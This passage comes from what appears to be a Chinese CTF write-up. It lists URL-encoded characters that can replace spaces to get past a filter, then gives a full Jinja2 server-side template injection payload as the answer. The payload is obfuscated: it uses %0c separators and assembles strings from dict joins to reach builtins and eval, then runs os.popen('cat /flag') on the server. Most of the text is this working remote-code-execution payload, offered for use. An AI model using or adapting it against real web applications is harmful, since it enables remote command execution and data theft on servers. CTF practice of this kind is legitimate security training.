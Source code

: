 空格绕过一般可以考虑以下：

> %20  
> %09  
> %0a  
> %0b  
> %0c  
> %0d  
> %a0  
> %00

本题可以使用`%0c`绕过，最终Payload如下：

```python
username={%%0cset%0czero%0c=%0c(self|int)%0c%}{%%0cset%0cone%0c=%0c(zero**zero)|int%0c%}{%%0cset%0ctwo%0c=%0c(zero-one-one)|abs%0c%}{%%0cset%0cfour%0c=%0c(two*two)|int%0c%}{%%0cset%0cfive%0c=%0c(two*two*two)-one-one-one%0c%}{%%0cset%0cthree%0c=%0cfive-one-one%0c%}{%%0cset%0cnine%0c=%0c(two*two*two*two-five-one-one)%0c%}{%%0cset%0cseven%0c=%0c(zero-one-one-five)|abs%0c%}{%%0cset%0cspace%0c=%0cself|string|min%0c%}{%%0cset%0cpoint%0c=%0cself|float|string|min%0c%}{%%0cset%0cc%0c=%0cdict(c=aa)|reverse|first%0c%}{%%0cset%0cbfh%0c=%0cself|string|urlencode|first%0c%}{%%0cset%0cbfhc%0c=%0cbfh~c%0c%}{%%0cset%0cslas%0c=%0cbfhc%((four~seven)|int)%0c%}{%%0cset%0cyin%0c=%0cbfhc%((three~nine)|int)%0c%}{%%0cset%0cxhx%0c=%0cbfhc%((nine~five)|int)%0c%}{%%0cset%0cright%0c=%0cbfhc%((four~one)|int)%0c%}{%%0cset%0cleft%0c=%0cbfhc%((four~zero)|int)%0c%}{%%0cset%0cbut%0c=%0cdict(buil=aa,tins=dd)|join%0c%}{%%0cset%0cimp%0c=%0cdict(imp=aa,ort=dd)|join%0c%}{%%0cset%0cpon%0c=%0cdict(po=aa,pen=dd)|join%0c%}{%%0cset%0cso%0c=%0cdict(o=aa,s=dd)|join%0c%}{%%0cset%0cca%0c=%0cdict(ca=aa,t=dd)|join%0c%}{%%0cset%0cls%0c=%0cdict(ls=x)|join%0c%}{%%0cset%0cev%0c=%0cdict(ev=aa,al=dd)|join%0c%}{%%0cset%0cred%0c=%0cdict(re=aa,ad=dd)|join%0c%}{%%0cset%0cbul%0c=%0cxhx~xhx~but~xhx~xhx%0c%}{%%0cset%0cini%0c=%0cdict(ini=aa,t=bb)|join%0c%}{%%0cset%0cglo%0c=%0cdict(glo=aa,bals=bb)|join%0c%}{%%0cset%0citm%0c=%0cdict(ite=aa,ms=bb)|join%0c%}{%%0cset%0cpld%0c=%0cxhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~(dict(flag=1)|join)~yin~right~point~red~left~right%0c%}{%%0cfor%0cf,v%0cin%0c(self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))()%0c%}{%%0cif%0cf%0c==%0cbul%0c%}{%%0cfor%0ca,b%0cin%0c(v|attr(itm))()%0c%}{%%0cif%0ca%0c==%0cev%0c%}{{b(pld)}}{%%0cendif%0c%}{%%0cendfor%0c%}{%%0cendif%0c%}{%%0cendfor%0c%}&password=admin
```

[![](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220914143508629-1153751208.png)](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220914143508629-1153751208.png)